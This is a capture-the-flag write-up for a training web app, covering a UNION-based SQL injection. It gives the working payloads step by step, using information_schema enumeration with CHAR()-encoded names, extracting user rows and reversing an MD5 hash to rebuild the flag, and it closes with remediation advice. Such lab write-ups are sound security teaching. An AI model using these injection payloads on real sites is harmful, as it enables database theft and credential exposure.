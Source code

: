 # Breach: Full SQL Enumeration and Flag Reconstruction via Hash Reversal

## Discovery & Exploit

This challenge involved a multi-step SQL injection process starting with a simple condition:

You need to open the page `/?page=member` and submit the input:

``0=0``

This returned 4 users, one of whom had the names:

``First name: Flag``  
``Surname: GetThe``

We began enumeration using a classic UNION SELECT injection:

**Step 1 – Current Database Name**
``0=0 UNION SELECT database(), null--``  
→ Revealed: `Member_Sql_Injection`

**Step 2 – Table Enumeration**
``0=0 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)--``  
→ Found table: `users`

**Step 3 – Column Enumeration**
``0=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)--``  
→ Columns found:  
`user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

**Step 4 – Data Extraction**
We then queried the suspected user row with:

``0=0 UNION SELECT first_name, [column] FROM users--``

This gave us:

- `user_id = 5`
- `first_name = Flag`
- `last_name = GetThe`
- `Commentaire = Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
- `countersign = 5ff9d0165b4f92b14994e5c685cdce28`

**Step 5 – Hash Decoding**

The `countersign` value was an MD5 hash. Using a [public hash lookup](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28) service:

→ `5ff9d0165b4f92b14994e5c685cdce28` = `FortyTwo`  
→ Lowercase: `fortytwo`  
→ [SHA256](https://10015.io/tools/sha256-encrypt-decrypt) of `fortytwo` = [flag](../flag)

**This is our final flag.**

## Vulnerability Details

This vulnerability demonstrates a full chain of **UNION-based SQL injection**, allowing the attacker to:

- Discover the database name
- Enumerate tables and columns
- Extract rows from sensitive tables
- Rebuild hidden secrets through hash decoding

Such attacks are possible when user input is directly injected into SQL statements without proper escaping or parameterization.

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://md5.gromweb.com/

## Remediation

1. Always use parameterized queries or prepared statements.
2. Do not expose database errors in the frontend.
3. Apply the principle of least privilege on database accounts.
4. Sanitize and validate all user input.
5. Monitor for suspicious queries and implement rate limiting.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach07_SpoofedHeaderAccessBypass/Ressources/writeup.md">← Previous: Breach08</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach09_SQLi_UnionExtractFlag/Ressources/writeup.md">Next: Breach10 →</a></td>
  </tr>
</table>